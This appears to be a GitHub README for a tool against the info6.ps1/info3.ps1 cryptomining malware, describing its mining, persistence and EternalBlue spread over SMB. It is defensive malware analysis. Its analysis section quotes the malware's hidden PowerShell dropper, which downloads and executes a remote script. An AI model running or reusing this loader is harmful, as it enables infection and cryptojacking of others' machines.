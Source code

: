 # AntiMining-info6

#### By Carlos Ramírez López

### ABOUT
Currently, cryptocurrency mining malware with file name info6.ps1 is being propagated for architecture (X64) and info3.ps1 for architecture (x86) in Windows. This malware is divided into four parts:
1- Performance modification in the computer equipment to "high performance" through the Windows registry.
2- Mining of cryptocurrencies, increasing CPU processing between 70% and 100%.
3- Persistence in infected computers, modifications of Windows variable classes.
4- Propagation through the network taking advantage of the Eternalblue vulnerability in the SMB port 445 of shared folders, scanning the red segment of the computer equipment.

In the page www.virustotal.com, 16 of 59 antivirus detect the files info6.ps1 and info3.ps1 on February 12, 2018 as a malware, however, once the code has been executed on your computer, only 1 of 59 antivirus I detect it, but without creating a solution on the affected computers.

### ANALYSIS
The malware is downloaded from different IP addresses by means of the script identifying the type of architecture:

'''
cmd /c powershell.exe -NoP -NonI -W Hidden "if((Get-WmiObject Win32_OperatingSystem).osarchitecture.contains('64')){IEX(New-Object Net.WebClient).DownloadString('http://IP /info6.ps1')}else{IEX(New-Object Net.WebClient).DownloadString('http://IP/info3.ps1')}"
'''
